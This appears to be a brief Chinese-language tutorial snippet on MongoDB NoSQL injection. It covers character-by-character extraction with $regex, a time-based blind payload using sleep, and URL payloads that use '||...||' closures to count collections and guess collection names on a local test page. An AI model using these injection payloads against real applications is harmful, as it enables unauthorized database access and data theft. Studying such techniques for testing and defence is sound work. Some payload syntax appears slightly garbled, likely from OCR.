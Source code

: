 $regex操作符进行一位一位获取数据，相当于sql中的盲注

db.test.find({username:{'$regex':'^a'}});

db.test.find({username:{'$regex':'^ab'}});

......

时间盲注

http://127.0.0.1/1.php?username='test'});if(db.version()>"0"){sleep (10000);exit;} var b=({a:'1&password=test

在mongodb的高版本中不能使用注释语句，只能通过（|| '1'=='1）闭合的方法。但存在新特性就是默认开启错误回显

判断集合数

http://127.0.0.1/1.php?news=test'||db.getCollectionNames().length>0||'1'=='1

http://127.0.0.1/1.php?news=test'||db.getCollectionNames().length>5||'1'=='1

判断第一个集合名称第一个字符大于a

http://127.0.0.1/1.php?news=test'||db.getCollectionNames()   [[0]][0][0]>'a'||'1'=='1







